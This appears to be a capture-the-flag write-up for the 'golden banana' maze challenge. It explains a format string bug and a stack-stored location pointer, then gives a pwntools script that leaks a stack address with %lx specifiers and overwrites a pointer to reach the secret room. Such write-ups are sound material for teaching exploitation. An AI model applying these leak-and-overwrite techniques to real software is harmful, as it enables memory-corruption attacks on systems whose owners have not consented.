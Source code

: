 # golden banana

This challenge looks like a text based maze puzzle where you have to find the secret room to get the flag but there is no way of getting to it using regular game mechanics.

There is a format string vulnerability and a couple of logic bugs as the location of the next room and the secret room is stored on the stack. We can get a stack leak and overwrite a next location pointer with the location of the secret room to get the flag.

```python
from pwn import *
context.arch = "amd64"

# io = remote('chals.damctf.xyz', 30234)
io = process("./golden_banana")
if args.GDB:
	gdbscript="""
	c
	"""
	gdb.attach(io, gdbscript=gdbscript)

io.sendline(b'1')
io.sendline(b'1')

payload = b'A'*1024 # input_buf
for i in range(2):
	payload += b'B'*1024 # location.description

	for i in range(4):	# choices
		payload += b'A'*1024 # description
		payload += b'B'*8	 # *location
	payload += b'%lx-'*2 # num_choices
	payload += b'%lx-'*2  # end_location


io.sendline(payload)
io.sendline(b'2')
sleep(2)
io.clean()
io.sendline(b'2')

leak = io.recvline().split(b'-')
stack_addr = int(leak[2], 16)
secret_location = stack_addr + 0xddb8
log.info(f"stack leak is {hex(stack_addr)}")
log.info(f"secret location {hex(secret_location)}")

payload += b'A'*1008
payload += b'B'*1024 # choice description
payload += p64(secret_location) # location
io.sendline(payload)

io.sendline(b'1')

io.interactive()
```